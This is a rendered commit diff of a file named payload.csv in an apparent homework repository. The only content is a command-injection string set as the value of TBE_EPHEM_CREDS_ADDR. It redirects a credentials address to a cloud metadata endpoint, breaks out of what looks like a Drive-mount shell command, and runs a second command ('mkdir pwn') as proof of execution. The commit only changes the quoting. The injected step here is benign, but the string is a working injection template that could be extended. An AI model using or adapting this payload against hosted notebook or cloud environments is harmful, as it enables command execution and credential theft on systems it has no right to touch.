

Before and after one commit to Crazed-png/HOMEWORK, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -2,2 +2,2 @@
 #1,2
-TBE_EPHEM_CREDS_ADDR="172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E 'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream'; echo 'drive EXITED'; ) & mkdir pwn & # " #, 13
+TBE_EPHEM_CREDS_ADDR="172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream; echo drive EXITED; ) & mkdir pwn & # " #, 13
```
